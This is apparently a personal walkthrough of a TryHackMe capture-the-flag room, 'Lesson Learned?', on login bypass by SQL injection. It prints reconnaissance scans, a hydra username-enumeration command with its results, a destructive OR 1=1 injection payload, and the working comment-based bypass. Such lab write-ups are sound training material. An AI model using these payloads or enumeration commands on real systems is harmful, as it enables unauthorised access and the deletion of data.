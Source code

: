 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Lesson Learned?
# DESCRIPTION       . Have you learned your lesson?
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/lessonlearned
```

```bash
sudo nmap -sSVC -T5 -p- 10.10.17.247 -oN ll
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 2e5489aef7914e336e1089539cf592db (RSA)
|   256 dd2ccafcb76514d488a36e557165f72f (ECDSA)
|_  256 2bc2d81bf47be5785356019a83f37981 (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: Lesson Learned?
|_http-server-header: Apache/2.4.54 (Debian)
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- There is only a login form on the website which I didn't want to attempt to bruteforce or try SQL Injection just yet, so I decided on enumeration.

```
ffuf -u http://10.10.17.247/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

```
manual                  [Status: 301, Size: 313, Words: 20, Lines: 10]
```

- This was just the Apache's 2.4 manual and I tried enumerating more sub directories thinking that maybe we get a hint or some useful info.

- However, I quickly realised I'm wasting time so I came back to the login form and tried some SQL injection.

- Using the `' or 1=1 limit 1 -- -+` payload, I received the following message

```
Oops! It looks like you injected an OR 1=1 or similar into the username field. This wouldn't have bypassed the login because every row in the users table was returned, and the login check only proceeds if one row matches the query.

However, your injection also made it into a DELETE statement, and now the flag is gone. Like, completely gone. You need to reset the box to restore it, sorry.

OR 1=1 is dangerous and should almost never be used for precisely this reason. Not even SQLmap uses OR unless you set --risk=3 (the maximum). Be better. Be like SQLmap.

Lesson learned?

P.S. maybe there is less destructive way to bypass the login...
```

- So this is the lesson, it seems. `OR 1=1` in SQL injection can lead to DELETE statements and to data losses.

- I've restarted the box and tried other payloads to bypass the login.

- Tried multiple payloads, but I didn't had any success (well, I didn't expect to. Tried other 'or' statements to see if they really delete the flag)

- Then, I tried to bypass the login assuming the username is `admin`, but I still had no succes, so either I'm missing something or `admin` doesn't exist.

- I fired up hydra to find out valid usernames on the  system

```
hydra -L /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -p a 10.10.124.142 http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password." -I -t 16

[80][http-post-form] host: 10.10.124.142   login: martin   password: a
[80][http-post-form] host: 10.10.124.142   login: patrick   password: a
[80][http-post-form] host: 10.10.124.142   login: stuart   password: a
[80][http-post-form] host: 10.10.124.142   login: marcus   password: a
[80][http-post-form] host: 10.10.124.142   login: kelly   password: a
[80][http-post-form] host: 10.10.124.142   login: arnold   password: a
[80][http-post-form] host: 10.10.124.142   login: Martin   password: a
[80][http-post-form] host: 10.10.124.142   login: karen   password: a
```

- This is working because we're getting `Invalid username and password.` when inputting wrong username:password, but when only the password is wrong, we're getting `Invalid password.` instead.

- Knowing this, we can try SQL Injection as follows: `username'#`.

```
Well done! You bypassed the login without deleting the flag!

If you're confused by this message, you probably didn't even try an SQL injection using something like OR 1=1. Good for you, you didn't need to learn the lesson.

For everyone else who had to reset the box...lesson learned?

Using OR 1=1 is risky and should rarely be used in real world engagements. Since it loads all rows of the table, it may not even bypass the login, if the login expects only 1 row to be returned. Loading all rows of a table can also cause performance issues on the database. However, the real danger of OR 1=1 is when it ends up in either an UPDATE or DELETE statement, since it will cause the modification or deletion of every row.

For example, consider that after logging a user in, the application re-uses the username input to update a user's login status: UPDATE users SET online=1 WHERE username='<username>';

A successful injection of OR 1=1 here would cause every user to appear online. A similar DELETE statement, possibly to delete prior session data, could wipe session data for all users of the application.

Consider using AND 1=1 as an alternative, with a valid input (in this case a valid username) to test / confirm SQL injection. 
```

